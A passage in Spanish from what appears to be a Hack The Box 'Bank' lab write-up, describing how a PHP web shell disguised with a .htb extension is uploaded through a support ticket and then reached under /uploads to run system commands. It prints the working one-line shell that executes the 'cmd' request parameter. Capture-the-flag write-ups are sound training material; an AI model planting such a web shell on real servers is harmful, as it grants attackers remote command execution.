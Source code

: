 Ahora, vamos a crear un nuevo ticket y subir un archivo **php** con extensión **htb** con el cual podamos hacer ejecución de comandos, para este caso lo llamaremos **k4mishell.htb**.

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

![""](/assets/images/htb-bank/bank-web2.png)

Le damos click en **Click Here** y nos lleva a nuestro archivo bajo el recurso `/uploads` y vemos que podemos ejecutar comandos a nivel de sistema.

![""](/assets/images/htb-bank/bank-web3.png)
